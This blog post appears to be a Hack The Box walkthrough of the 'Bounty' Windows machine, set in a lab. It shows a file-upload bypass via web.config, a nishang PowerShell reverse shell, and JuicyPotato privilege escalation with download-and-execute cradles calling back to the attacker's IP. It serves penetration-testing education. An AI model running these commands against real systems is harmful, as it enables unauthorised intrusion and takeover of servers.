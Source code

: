 ```yaml
---
id: 3472
title: 'Hackthebox &#8211; Bounty'
date: '2022-04-15T08:26:52+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Bounty" from Hackthebox.'
layout: post
guid: 'http://vedanttare.com/?p=3472'
permalink: /hackthebox-bounty/
powerkit_share_buttons_transient_facebook:
    - '1692134024'
powerkit_share_buttons_transient_pinterest:
    - '1728079652'
image: 'http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.23.32-PM-496x166.png'
categories:
    - Writeups
---
```


![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.22.28-PM.png)

**IP address: 10.10.10.93**

## Enumeration

After making a simple nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/bounty 10.10.10.93`, we get,

Open ports:

- 80

So, as there was only port 80 open I just navigated to the IP and got the default page which was and image. I checked the page source but there was nothing. Then, I checked the image info and it had related text which showed IIS 7. The nmap scan though said that it was running IIS 7.5. Then, I checked on searchsploit for iis 7.5 vulns and found some, auth bypass to read sensitive files, etc, but none of them worked. Finally, I ran gobuster.

gobuster:  
`/UploadedFiles (Status: 301) │st canceled (Client.Timeout exceeded while awaiting headers)<br></br>/uploadedFiles (Status: 301) │Progress: 155722 / 220561 (70.60%)[ERROR] 2020/09/01 09:14:17 [!] Get http://10.10.10.93/191275: net/http: request ca<br></br>/uploadedfiles (Status: 301)<br></br>/aspnet_client<br></br>/aspnet_client/system_web`

The default page after visiting the IP of the machine was:

![](http://vedanttare.com/wp-content/uploads/2022/04/default-page.png)

I visited these pages/dirs but got a 403 error which said that: YOU CANNOT ACCESS THIS PAGE AS YOU ARE NOT USING THE RIGHT CREDS…. Then as it was an IIS server, so, I thought of running gobuster with the extension flag of aspx through which I found a page:  
`transfer.aspx`

BOOM!!! This page had a file upload functionality where I could upload files. I tried uploading a simple aspx, asp file…but it said: `FILE NOT UPLOADED`  
I tried to bypass the filter by double extension and then when I tried to navigate to the file it showed that this page contains errors….. Then, I made a wordlist of all default extension and used burp intruder to bruteforce each one. It showed that jpeg, png and config(suspicious) was giving a successful upload.

After alot of sweat and tears and alot of googling I finally found an article which said that you could upload a web.config file to iis server 7/7.5 and embed asp code in it and execute it.  
https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ –&gt; GODLY ARTICLE

Again, after alot of sweat and tears again I was able to get code execution. Now I had to upload a rev shell, so that I could get a rev connection back on my machine. I copied nishang poweshell rev shell script to my working directory:  
`Invoke-PowerShellTcp.ps1`

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-1.46.29-PM.png)

At the end of the script I added:  
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444`

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-1.47.14-PM.png)  
By adding this it was telling the script to connect to my IP address and port. Then I modified my web.config file so that it would download the nishang powershell script and execute it. I setup a listener on my kali machine:  
AND BOOM!!!! I got a low priv shell!

`kali@starscorp1o:~/htb/boxes/bounty$ sudo nc -nlvp 5555<br></br>[sudo] password for kali:<br></br>listening on [any] 5555 …<br></br>connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49158<br></br>Windows PowerShell running as user BOUNTY$ on BOUNTY<br></br>Copyright (C) 2015 Microsoft Corporation. All rights reserved.`

`PS C:\windows\system32\inetsrv>whoami<br></br>bounty\merlin<br></br>PS C:\windows\system32\inetsrv> systeminfo`

`Host Name: BOUNTY<br></br>OS Name: Microsoft Windows Server 2008 R2 Datacenter<br></br>OS Version: 6.1.7600 N/A Build 7600<br></br>OS Manufacturer: Microsoft Corporation<br></br>OS Configuration: Standalone Server<br></br>OS Build Type: Multiprocessor Free<br></br>Registered Owner: Windows User<br></br>Registered Organization:<br></br>Product ID: 55041-402-3606965-84760<br></br>Original Install Date: 5/30/2018, 12:22:24 AM<br></br>System Boot Time: 9/2/2020, 5:19:45 PM<br></br>System Manufacturer: VMware, Inc.<br></br>System Model: VMware Virtual Platform<br></br>System Type: x64-based PC<br></br>Processor(s): 1 Processor(s) Installed.<br></br>[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz<br></br>BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018<br></br>Windows Directory: C:\Windows<br></br>System Directory: C:\Windows\system32<br></br>Boot Device: \Device\HarddiskVolume1<br></br>System Locale: en-us;English (United States)<br></br>Input Locale: en-us;English (United States)<br></br>Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul<br></br>Total Physical Memory: 2,047 MB<br></br>Available Physical Memory: 1,578 MB<br></br>Virtual Memory: Max Size: 4,095 MB<br></br>Virtual Memory: Available: 3,574 MB<br></br>Virtual Memory: In Use: 521 MB<br></br>Page File Location(s): C:\pagefile.sys<br></br>Domain: WORKGROUP<br></br>Logon Server: N/A<br></br>Hotfix(s): N/A<br></br>Network Card(s): 1 NIC(s) Installed.<br></br>[01]: Intel(R) PRO/1000 MT Network Connection<br></br>Connection Name: Local Area Connection<br></br>DHCP Enabled: No`

## Privilege Escalation

I checked who I was:  
`bounty/merlin`

I went into merlin’s dir and tried to list the files but I couldn’t get the user.txt file as it wasn’t showing. Then I ran the following command to see hidden files:  
`attrib`  
And then i got the user flag:

`PS C:\Users\merlin> cd Desktop<br></br>PS C:\Users\merlin\Desktop> dir<br></br>PS C:\Users\merlin\Desktop> attrib<br></br>A SH C:\Users\merlin\Desktop\desktop.ini<br></br>A H C:\Users\merlin\Desktop\user.txt<br></br>PS C:\Users\merlin\Desktop> type user.txt<br></br>e29ad89891462e0b09741e3082f44a2f`

I checked the system information using:  
`systeminfo` command:

`PS C:\windows\system32\inetsrv> systeminfo`

`Host Name: BOUNTY<br></br>OS Name: Microsoft Windows Server 2008 R2 Datacenter<br></br>OS Version: 6.1.7600 N/A Build 7600<br></br>OS Manufacturer: Microsoft Corporation<br></br>OS Configuration: Standalone Server<br></br>OS Build Type: Multiprocessor Free<br></br>Registered Owner: Windows User<br></br>Registered Organization:<br></br>Product ID: 55041-402-3606965-84760<br></br>Original Install Date: 5/30/2018, 12:22:24 AM<br></br>System Boot Time: 9/2/2020, 5:19:45 PM<br></br>System Manufacturer: VMware, Inc.<br></br>System Model: VMware Virtual Platform<br></br>System Type: x64-based PC<br></br>Processor(s): 1 Processor(s) Installed.<br></br>[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz<br></br>BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018<br></br>Windows Directory: C:\Windows<br></br>System Directory: C:\Windows\system32<br></br>Boot Device: \Device\HarddiskVolume1<br></br>System Locale: en-us;English (United States)<br></br>Input Locale: en-us;English (United States)<br></br>Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul<br></br>Total Physical Memory: 2,047 MB<br></br>Available Physical Memory: 1,578 MB<br></br>Virtual Memory: Max Size: 4,095 MB<br></br>Virtual Memory: Available: 3,574 MB<br></br>Virtual Memory: In Use: 521 MB<br></br>Page File Location(s): C:\pagefile.sys<br></br>Domain: WORKGROUP<br></br>Logon Server: N/A<br></br>Hotfix(s): N/A<br></br>Network Card(s): 1 NIC(s) Installed.<br></br>[01]: Intel(R) PRO/1000 MT Network Connection<br></br>Connection Name: Local Area Connection<br></br>DHCP Enabled: No<br></br>IP address(es)<br></br>[01]: 10.10.10.93`

![](http://vedanttare.com/wp-content/uploads/2022/04/userflag.png)

Now, I checked the privileges:  
using `whoami /priv` command:

`Privilege Name Description State<br></br>============================= ========================================= =======<br></br>SeAssignPrimaryTokenPrivilege Replace a process level token Enabled<br></br>SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled<br></br>SeAuditPrivilege Generate security audits Enabled<br></br>SeChangeNotifyPrivilege Bypass traverse checking Enabled<br></br>SeImpersonatePrivilege Impersonate a client after authentication Enabled<br></br>SeIncreaseWorkingSetPrivilege Increase a process working set Enabled`

Now we could see that the SeImpersonatePrivilege was enabled…this is very juicy…this leads to tokenhijacking…Juicypotato exploit is available for the esacalation of privileges for this…So I downloaded juicypotato.exe from github:

<https://github.com/ohpe/juicy-potato/releases>

Then, I already had a python web server hosted so I downloaded the file on my kali machine using the following command:

`PS C:\Users\merlin\Desktop> (new-object net.webclient).downloadfile('http://10.10.14.5:/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')`

![](http://vedanttare.com/wp-content/uploads/2022/04/pywebserver.png)

![](http://vedanttare.com/wp-content/uploads/2022/04/juicy-potato.png)

Now, I made a shell.bat file on my kali machine with the following code:

`powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.5:/shell.ps1')`

![](http://vedanttare.com/wp-content/uploads/2022/04/shellbat.png)

What this command does is that it downloads another powershell script and executes it but we will do that by using juicy potate exploit which will run it as root…

The final command:

`PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444<br></br>Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444<br></br>….<br></br>[+] authresult 0<br></br>{4991d34b-80a1-4291-83b6-332`8366b9097};NT AUTHORITY\\SYSTEM

`[+] CreateProcessWithTokenW OK`

AND BOOM!!! We get root!!!!

`kali@starscorp1o:~/htb/boxes/bounty$ sudo nc -nlvp 4444<br></br>[sudo] password for kali:<br></br>listening on [any] 4444 …<br></br>connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49168<br></br>whoami<br></br>Windows PowerShell running as user BOUNTY$ on BOUNTY<br></br>Copyright (C) 2015 Microsoft `Corporation. All rights reserved.

`PS C:\Windows\system32>nt authority\system<br></br>PS C:\Windows\system32> whoami<br></br>nt authority\system<br></br>PS C:\Windows\system32> hostname<br></br>bounty<br></br>PS C:\Windows\system32> whoami<br></br>nt authority\system<br></br>PS C:\Windows\system32> whoami<br></br>whoami`

![](http://vedanttare.com/wp-content/uploads/2022/04/got-root.png)

Important links and resources:

<https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/bounty.md>

<https://medium.com/@ranakhalil101/hack-the-box-bounty-writeup-w-o-metasploit-14467aea7815>

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Jerry](https://vedanttare.com/hackthebox-jerry/)

<iframe class="wp-embedded-content" data-secret="ZndqSkPSVw" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-jerry/embed/#?secret=sbeonL6L6I#?secret=ZndqSkPSVw" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Jerry” — VEDANT TARE" width="600"></iframe></div></figure>
